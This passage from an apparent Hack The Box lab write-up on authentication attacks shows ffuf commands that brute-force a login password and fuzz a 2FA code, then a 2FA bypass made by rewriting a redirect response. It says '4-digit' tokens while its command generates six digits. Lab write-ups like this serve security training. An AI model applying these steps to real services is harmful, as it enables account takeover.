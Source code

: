 So now I'll brute force the username `gladys` with the previous password:

```shell
ffuf -w ./custom_wordlist.txt -u http://94.237.59.30:35039/login.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -d "username=gladys&password=FUZZ" -fr "Invalid credentials." -s

[redacted]
dWinaldasD13
```

I logged in and got a prompt for 2FA:

![](Pasted%20image%2020250316200711.png)

I'll generate a wordlist containing all possible 4-digit tokens:

```shell
seq -w 0 999999 > tokens.txt
```

Now I'll fuzz it:

```shell
ffuf -w ./tokens.txt -u http://94.237.59.30:35039/2fa.php -X POST -H "Content-Type: application/x-www-form-urlencoded" -b "PHPSESSID=ih9idotupft99ua205rlcg2jr3; session=757365723d6874622d7374646e743b726f6c653d75736572" -d "otp=FUZZ" -fr "Invalid OTP." -s
```

This didn't work because of the rate limit of the app. After 3 unsuccessful tries, the page redirects back to the `login.php`. So I'll try to modify the `Location` of the reponse of the login request to `profile.php`:

![](Pasted%20image%2020250316202038.png)

![](Pasted%20image%2020250316202053.png)

![](Pasted%20image%2020250316202121.png)

I'll also change the `302` Redirect to a `200`:

![](Pasted%20image%2020250316202208.png)

![](Pasted%20image%2020250316202225.png)

# HTB Cheatsheet

## Categories of Authentication

- Knowledge: passwords, PINs, ...
- Ownership: ID cards, TOTP
- Inherence: Biometric authentication

## Brute-Force Attacks
